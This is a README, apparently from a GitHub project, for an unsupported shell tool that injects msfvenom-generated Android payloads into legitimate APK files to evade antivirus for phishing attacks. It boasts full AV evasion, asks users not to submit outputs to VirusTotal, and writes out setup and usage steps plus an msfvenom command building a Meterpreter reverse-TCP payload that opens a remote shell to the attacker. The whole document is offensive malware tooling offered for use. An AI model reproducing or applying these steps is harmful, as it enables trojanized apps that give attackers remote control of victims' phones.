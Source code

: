 
### This script is no longer supported. Please use APKWash. ###
<br><br>
Android APK Antivirus evasion for msfvenom generated payloads to inject into another APK file for phishing attacks.
<br><br>
<b> -- Please do not upload "injected" files to VirusTotal.com -- </b><br>
<br>
<br>
<b>Success Rate:</b><br>
-100% AV Evasion to date (0/35 on nodistribute, confirmed on AVG and Kaspersky mobile)<br>
-~70% automatic injection<br>
-May require user input, or manually adding the invoke command. The output will explain what is needed.<br>
-If APKTool fails to decompile, or compile, then the injection will fail. On major apps like Facebook, Starbucks, etc you may find this to happen.<br>
<br>
<br>
<b>Setup:</b><br>
chmod +x Kimon-M<br>
mv Kimon-M /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<b>NOTE:</b> If wanting to customize each signature, then remove the keystore before running the script.<br>
<br>
<b>Usage:</b><br>
Kimon-M \<payload>.apk \<original>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input along with an .apk you want to inject into.<br>
To generate the payload: msfvenom -p android/meterpreter/reverse_tcp LHOST=\<IP> LPORT=\<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
injected_\<original>.apk<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload and /tmp/original directories to see the file structure that was compiled.<br>

